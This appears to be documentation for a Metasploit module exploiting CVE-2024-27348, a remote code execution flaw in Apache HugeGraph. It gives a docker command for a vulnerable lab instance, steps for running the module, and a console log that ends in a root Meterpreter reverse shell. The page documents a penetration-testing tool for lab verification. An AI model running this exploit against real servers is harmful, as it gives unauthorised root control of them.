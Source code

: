 ## Vulnerable Application
This module exploits CVE-2024-27348 which is a Remote Code Execution (RCE) vulnerability that exists in
Apache HugeGraph Server in versions before 1.3.0. An attacker can bypass the sandbox restrictions and achieve
RCE through Gremlin, resulting in complete control over the server

### Setup
To install a vulnerable instance via docker run the following command:
```
docker run -itd --name=graph -p 8080:8080 hugegraph/hugegraph:1.0.0
```

## Verification Steps

1. Start msfconsole
1. Do: `use exploit/linux/http/apache_hugegraph_gremlin_rce`
1. Set the `RHOST` and `LHOST` options
1. Run the module
1. Receive a Meterpreter session as the `root` user.

## Scenarios
### Apache HugeGraph 1.0.0 docker instance
```

msf6 exploit(linux/http/apache_hugegraph_gremlin_rce) > set rhost 127.0.0.1
rhost => 127.0.0.1
msf6 exploit(linux/http/apache_hugegraph_gremlin_rce) > set lhost 172.16.199.1
lhost => 172.16.199.1
msf6 exploit(linux/http/apache_hugegraph_gremlin_rce) > run

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Apache HugeGraph version detected: 1.0.0
[*] 127.0.0.1:9191 - Executing Automatic Target for cmd/linux/http/x64/meterpreter/reverse_tcp
[*] Sending stage (3045380 bytes) to 172.16.199.1
[*] Meterpreter session 8 opened (172.16.199.1:4444 -> 172.16.199.1:53803) at 2024-07-29 13:59:20 -0700

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 172.17.0.2
OS           : Debian 11.4 (Linux 6.6.32-linuxkit)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
